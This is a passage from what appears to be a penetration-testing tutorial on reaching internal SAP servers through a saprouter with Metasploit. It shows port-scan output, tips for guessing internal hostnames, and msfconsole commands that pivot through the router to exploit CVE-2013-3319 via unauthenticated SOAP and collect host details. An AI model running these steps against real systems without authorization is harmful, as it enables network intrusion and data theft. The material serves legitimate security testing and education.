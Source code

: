 ```
[+] sapsrv2:3200 - TCP OPEN
[!] Warning: Service info could be inaccurate

Portscan Results
================

   Host     Port  State  Info
   ----     ----  -----  ----
   sapsrv2  3200  open   SAP Dispatcher sapdp00

[*] Auxiliary module execution completed
```

From the output we see that the host “sap” does not exist, but that host sapsrv does, although it is unreachable, and sapsrv2 exists and we can connect to port 3200.

This technique can also be used to try to find other hosts on the network, not SAP related, just try using common hostnames, like smtp, exchange, pdc, bdc, fileshare, intranet, or what other nice hostnames you might have on your bag of tricks

**The last mile**

Now that we have obtained all this information, we know the internal hosts available, what services are allowed, and what protocols we can use to pierce the saprouter, we can actually connect to internal servers, and proceed with our pentest.

Metasploit provides us with an awesome way to saprouter as a proxy, using the Proxies option, thanks to Dave Hartley ([@nmonkee](http://twitter.com/nmonkee)).

So at this point, we want to start gathering information on the internal sap server we have discovered in host 192.168.1.18. As an example, we'll be using the module [`sap_hostctrl_getcomputersystem`](http://www.rapid7.com/db/modules/auxiliary/scanner/sap/sap\_hostctrl\_getcomputersystem) which exploits CVE-2013-3319 and give us details on the OS the server is running on by querying the SAP Host Control service on port 1128 via an unauthenticated SOAP request. We'll be pivoting through the saprouter, using the proxy support in metasploit:

![](https://blog.rapid7.com/content/images/post-images/33923/image2.jpg)

```
msf auxiliary(sap_router_portscanner) > use auxiliary/scanner/sap/sap_hostctrl_getcomputersystem 
msf auxiliary(sap_hostctrl_getcomputersystem) > set Proxies sapni:1.2.3.101:3299
Proxies => sapni:1.2.3.101:3299
msf auxiliary(sap_hostctrl_getcomputersystem) > set RHOSTS 192.168.1.18
RHOSTS => 192.168.1.18
msf auxiliary(sap_hostctrl_getcomputersystem) > run

[+] 192.168.1.18:1128 - Information retrieved successfully
[*] 192.168.1.18:1128 - Response stored in /Users/msfusr/.msf4/loot/20140107180827_default_192.168.1.18_sap.getcomputers_386124.xml (XML) and /Users/msfusr/.msf4/loot/20140107180827_default_192.168.1.18_sap.getcomputers_186948.txt (TXT)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
